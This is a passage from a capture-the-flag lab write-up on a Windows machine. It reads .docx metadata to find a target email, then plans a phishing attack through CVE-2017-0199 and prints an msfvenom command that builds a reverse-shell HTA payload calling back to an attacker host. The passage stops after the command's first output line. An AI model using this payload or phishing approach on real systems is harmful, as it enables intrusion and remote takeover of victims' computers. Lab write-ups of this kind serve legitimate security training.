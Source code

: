 **Windows Event Forwarding.docx**
I was unable to open this file but i checked it with `exiftool` to see metadata and it ends up with the interesting information.
```
└─$ exiftool Windows\ Event\ Forwarding.docx 
ExifTool Version Number         : 12.52
File Name                       : Windows Event Forwarding.docx
Directory                       : .
File Size                       : 15 kB
File Modification Date/Time     : 2017:11:01 00:13:23+03:00
File Access Date/Time           : 2023:01:05 01:20:48+03:00
File Inode Change Date/Time     : 2023:01:05 01:20:41+03:00
File Permissions                : -rw-r--r--
File Type                       : DOCX
File Type Extension             : docx
MIME Type                       : application/vnd.openxmlformats-officedocument.wordprocessingml.document
Zip Required Version            : 20
Zip Bit Flag                    : 0x0006
Zip Compression                 : Deflated
Zip Modify Date                 : 1980:01:01 00:00:00
Zip CRC                         : 0x82872409
Zip Compressed Size             : 385
Zip Uncompressed Size           : 1422
Zip File Name                   : [Content_Types].xml
Creator                         : nico@megabank.com
Revision Number                 : 4
Create Date                     : 2017:10:31 18:42:00Z
Modify Date                     : 2017:10:31 18:51:00Z
Template                        : Normal.dotm
Total Edit Time                 : 5 minutes
Pages                           : 2
Words                           : 299
Characters                      : 1709
Application                     : Microsoft Office Word
Doc Security                    : None
Lines                           : 14
Paragraphs                      : 4
Scale Crop                      : No
Heading Pairs                   : Title, 1
Titles Of Parts                 : 
Company                         : 
Links Up To Date                : No
Characters With Spaces          : 2004
Shared Doc                      : No
Hyperlinks Changed              : No
App Version                     : 14.0000
```
In this file i found the email  address `nico@megabank.com` which will be used to receive an email.
### Phishing Email
This box was released during the presence of [CVE-2017-0199](https://nvd.nist.gov/vuln/detail/CVE-2017-0199) Then to exploit this, I’ll get the user will open an malicious`RTF` file, which will make an HTTP request for an `HTA` file. I’ll want that `HTA` file to execute code to give me a shell.
I will use the `meterpreter` to create the document
### Meterpreter
**Command**
```
┌──(gemstone㉿hashghost)-[~/…/Machines/vip/reel/exploit]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f hta-psh -o msfv.hta
```
**Result**
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
```